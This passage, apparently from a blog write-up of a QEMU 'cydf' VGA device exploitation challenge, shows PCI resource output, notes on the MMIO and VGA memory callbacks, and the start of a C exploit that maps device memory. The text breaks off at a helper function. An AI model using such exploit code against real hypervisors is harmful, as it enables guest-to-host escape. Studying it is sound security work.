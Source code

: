 fffc0000-ffffffff : Reserved
100000000-17fffffff : PCI Bus 0000:00
/ # cat /sys/devices/pci0000\:00/0000\:00\:04.0/resource
0x00000000fa000000 0x00000000fbffffff 0x0000000000042208
0x00000000febc1000 0x00000000febc1fff 0x0000000000040200
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x00000000febb0000 0x00000000febbffff 0x0000000000046200
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
{% endhighlight %}

The above explanation might be a little confusing and that's because some of it is based on guessing and assumptions. This article is really not that informative but it's just a way for me to keep notes about stuff I plan to flush out of my brain ASAP.

So, accessing physical memory `0xA0000` is handled by `cydf_vga_mem_read/write` (which controls the vuln code) and accessing memory `0xfebc1000` is handled by `cydf_mem_read/write` callbacks (which controls the VGA registers by emulating the port IO, this can also be achieved by directly accessing the port IO with `sys/io.h` macros).

## Exploit

I think I will explain this part via comments, it would be easier this way.

{% highlight C %}
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>

size_t mmio_addr = 0xfebc1000;
size_t mmio_size = 0x1000;
size_t vga_addr = 0xa0000;
size_t vga_size = 0x20000;

unsigned char* mmio_ptr = 0;
unsigned char* vga_ptr = 0;

void* mapmem( const char* dev, size_t offset, size_t size )
{
    int fd = open( dev, O_RDWR | O_SYNC );
    if ( fd == -1 ) {
        return 0;
    }

    void* result = mmap( NULL, size, PROT_READ | PROT_WRITE, MAP_SHARED, fd, offset );

    if ( !result ) {
        return 0;
    }

    close( fd );
    return result;
}

unsigned char vga_mem_read( unsigned int addr )
{
    return vga_ptr[addr];